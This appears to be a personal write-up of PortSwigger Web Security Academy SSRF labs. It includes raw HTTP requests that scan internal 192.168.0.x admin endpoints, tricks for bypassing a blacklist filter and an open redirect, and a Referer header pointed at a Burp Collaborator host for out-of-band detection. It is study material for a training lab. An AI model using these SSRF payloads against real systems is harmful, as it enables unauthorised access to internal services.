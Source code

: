 # Server Side Request Forgery (SSRF)

## Basic SSRF against the local server

![](https://lh6.googleusercontent.com/gNU5wu2NjCN9N57F5XW-lJOyDGxy8ZT0OCjRZ5-OB6Wqzw9FGNpqpl6JlJnYYMbL9SCW4aK1HQsX1oeCG_zx3m0AfInP3102emTSprr9ewX-nGAbuXmuWRuAI5LiGxP2VeFSehynjPotnq9VZs-eqLM)**
**![](https://lh4.googleusercontent.com/6OuPYSJh_WRyA4lBCYhZdYwEDkBq_Jaj5wM99AaXj7Rw6ry9VuuzsQ9Kw-xT23c1dBtSuWHe5H_kMSqRzMllsOS9BdwVOBSTAZZCI6F1jls7VDL2TT0s71aNFFSM_irqcFksHe9pL5Wxb1XWjmY0pvA)**

## Basic SSRF against another backend system
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

Run this request through Burp Intruder

```
POST /product/stock HTTP/1.1
Host: 0ae1004603b5a9d4c0472b3f00020022.web-security-academy.net
Cookie: session=ZPf441FfIRc7OnMufRt1wYuJgC6338AM
Content-Length: 96
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ae1004603b5a9d4c0472b3f00020022.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae1004603b5a9d4c0472b3f00020022.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin
```

![](Pasted%20image%2020220825003726.png)

![](Pasted%20image%2020220825005051.png)
![](Pasted%20image%2020220825005240.png)

## SSRF with blacklist-based input filters

https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

![](Pasted%20image%2020220825004453.png)

I first got a sample product check request as usual (by going to an item entry & clicking the "check stock" button)
![](Pasted%20image%2020220825004008.png)

I tested the various ways to do an SSRF

![](Pasted%20image%2020220825004141.png)

The admin keyword is blocked

![](Pasted%20image%2020220825004422.png)

So I used case variation

![](Pasted%20image%2020220825004710.png)

I also changed the host to 127.1 to bypass the host check

![](Pasted%20image%2020220825004825.png)

Looking at the HTML code, I deleted the user carlos.

![](Pasted%20image%2020220825004947.png)

## SSRF with open redirection vulnerability

![](Pasted%20image%2020220825005814.png)

Through some testing I found something interesting

![](Pasted%20image%2020220825010409.png)

`/product/nextProduct?currentProductId=9&path=http://192.168.0.12:8080/admin`

![](Pasted%20image%2020220825010548.png)


![](Pasted%20image%2020220825010635.png)


## Blind SSRF with out-of-band detection

https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection

http://maximebranger.synology.me:180/epubfs.php?data=305&comp=ch07s03.html

Public Burp Collaborator Server: **bXkgY3JlZGl0IGNhcmQgbnVtYmVyIGlz.burpcollaborator.net**

Just change the Referrer Header when intercepting the request through Burp Proxy

```
GET /product?productId=1 HTTP/1.1
Host: 0a7d00f9034a55fcc0376c0d0093006d.web-security-academy.net
Cookie: session=daXmeuXea19CgD0J2udyLmhmgYVvbQqQ
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://bXkgY3JlZGl0IGNhcmQgbnVtYmVyIGlz.burpcollaborator.net
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```